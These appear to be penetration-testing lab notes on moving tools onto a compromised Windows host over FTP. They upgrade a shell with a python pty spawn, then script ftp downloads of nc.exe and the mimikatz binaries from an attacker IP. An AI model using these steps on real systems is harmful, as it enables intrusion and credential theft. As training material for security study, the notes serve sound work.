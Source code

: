 ```
kali@kali:~$ chmod +x setup-ftp.sh kali@kali:~$ sudo ./setup-ftp.sh Password:
Enter it again:
Restarting ftp server
```

Upgrade non-interactive shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
C:\Users\offsec> ftp -h
```

```
 kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/ 
 kali@kali:~$ ls /ftphome/
nc.exe

 kali@kali:~$ sudo systemctl restart pure-ftpd
```

Create script

```
echo open 10.11.0.4 21> ftp.txt 
echo USER offsec>> ftp.txt 
echo lab1234>> ftp.txt 
echo bin >> ftp.txt 
echo GET nc.exe >> ftp.txt 
echo bye >> ftp.txt

```
Copy mimikatz files

```
echo open 192.168.119.175 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab1234>> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo GET mimilib.dll >> ftp.txt
echo GET mimidrv.sys >> ftp.txt
echo bye >> ftp.txt
```

Run command

```
ftp -i -v -n -s:ftp.txt
ftp -n -s:ftp.txt - this one worked
```


# Using VBScript
